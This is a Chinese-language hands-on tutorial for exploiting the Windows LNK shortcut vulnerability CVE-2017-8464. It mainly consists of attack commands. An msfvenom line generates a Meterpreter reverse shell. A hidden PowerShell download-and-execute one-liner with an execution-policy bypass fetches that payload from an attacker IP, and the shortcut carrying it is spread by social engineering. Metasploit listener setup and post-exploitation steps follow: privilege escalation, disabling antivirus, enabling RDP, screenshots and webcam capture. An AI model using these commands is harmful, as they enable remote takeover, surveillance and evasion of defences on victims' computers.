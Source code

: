 # 一、 什么是 CVE-2017-8464：

说明：

2017年6月13日，微软官方发布编号为CVE-2017-8464的漏洞公告，官方介绍Windows系统在解析快捷方式时存在远程执行任意代码的高危漏洞，黑客可以通过U盘、网络共享等途径触发漏洞，完全控制用户系统，安全风险高危

传播的载体一般是LNK ，LNK是windows系统内应用程序快捷方式文件的文件类型后缀名。

危害：

被攻击机插入存在攻击lnk的U盘后会反弹shell，哪怕是被隔离的内网，也可以在不上网的情况下被攻击。

# 二、环境准备：

1 可复现的操作系统版本：

* Microsoft Windows 10 Version 1607 for 32-bit Systems
* Microsoft Windows 10 Version 1607 for x64-based Systems
* Microsoft Windows 10 for 32-bit Systems
* Microsoft Windows 10 for x64-based Systems
* Microsoft Windows 10 version 1511 for 32-bit Systems
* Microsoft Windows 10 version 1511 for x64-based Systems
* Microsoft Windows 10 version 1703 for 32-bit Systems
* Microsoft Windows 10 version 1703 for x64-based Systems
* Microsoft Windows 7 for 32-bit Systems SP1
* Microsoft Windows 7 for x64-based Systems SP1
* Microsoft Windows 8.1 for 32-bit Systems
* Microsoft Windows 8.1 for x64-based Systems
* Microsoft Windows RT 8.1

2 可复现的服务器系统版本：

* Microsoft Windows Server 2008 R2 for Itanium-based Systems SP1
* Microsoft Windows Server 2008 R2 for x64-based Systems SP1
* Microsoft Windows Server 2008 for 32-bit Systems SP2
* Microsoft Windows Server 2008 for Itanium-based Systems SP2
* Microsoft Windows Server 2008 for x64-based Systems SP2
* Microsoft Windows Server 2012
* Microsoft Windows Server 2012 R2
* Microsoft Windows Server 2016

3 kali操作系统

# **三、利用原理** ：

创建恶意快捷方式，包含恶意执行脚本，点击恶意快捷方式，导致本机中病毒，并且被远控。

# 四、实战利用

启动MSF

终端内输入：msfconsole

开始利用：

#### 1、使用MSF创建一个后门

msf内输入：

msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.3.23 lport=4456 -f psh-reflection>/var/www/html/link.ps1

![image-20240916205636837](15.什么是 CVE-2017-8464：/image-20240916205636837.png)	

#### 3、通过社会学进行快捷方式传播

```
powershell -windowstyle hidden -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://192.168.15.141/link.ps1');test.ps1"
```

![image-20240916205834842](15.什么是 CVE-2017-8464：/image-20240916205834842.png)	 

![1641972183309](一、 什么是 CVE-2017-8464：.assets/1641972183309.png)

#### 4 回到MSF终端配置监听

msf内输入：  use exploit/multi/handler

#### 5 配置payload

set payload windows/x64/meterpreter/reverse_tcp

![1641972198597](一、 什么是 CVE-2017-8464：.assets/1641972198597.png)

msf中输入 ： show options   配置payload

![1641972211876](一、 什么是 CVE-2017-8464：.assets/1641972211876.png)

设置 LHOST  和  LPORT

maf中输入：

5.1  set lhost `<当前机器ip>` 设置 LHOST

5.2  set lport  `<未被占用的端口>`  设置 LPORT

![image-20240916210029296](15.什么是 CVE-2017-8464：/image-20240916210029296.png)	

5.3  最后在 输入 show options 查看配置是否生效

#### 6、执行监听

msf中输入 ： run 或者  exploit

![1641972244295](一、 什么是 CVE-2017-8464：.assets/1641972244295.png)

进入靶机执行我们在靶机上创建的快捷方式

![1641972183309](一、 什么是 CVE-2017-8464：.assets/1641972183309.png)

稍等片刻获取到meterpreter

![image-20240916210138934](15.什么是 CVE-2017-8464：/image-20240916210138934.png)	

# 五、后渗透

1、通过快捷方式执行程序

meterpreter中输入  shell

![1641972283719](一、 什么是 CVE-2017-8464：.assets/1641972283719.png)

发现shell显示有乱码

shell内输入  chcp 65001

![1641972295944](一、 什么是 CVE-2017-8464：.assets/1641972295944.png)

然后进入desktop目录（这个是win的桌面）

根据实际情况拼路径

shell 里输入：cd users/mb/desktop

![1641972307789](一、 什么是 CVE-2017-8464：.assets/1641972307789.png)

2 更多操作

查看进程：ps
查看当前进程号：getpid
查看系统信息：sysinfo
查看目标机是否为虚拟机：run post/windows/gather/checkvm
查看完整网络设置：route
查看当前权限：getuid
自动提权：getsystem
关闭杀毒软件：run post/windows/manage/killav
启动远程桌面协议：run post/windows/manage/enable_rdp
列举当前登录的用户：run post/windows/gather/enum_logged_on_users
查看当前应用程序：run post/windows/gather/enum_applications
抓取目标机的屏幕截图：load espia ； screengrab
抓取摄像头的照片：webcam_snap
查看当前处于目标机的那个目录：pwd
查看当前目录：getlwd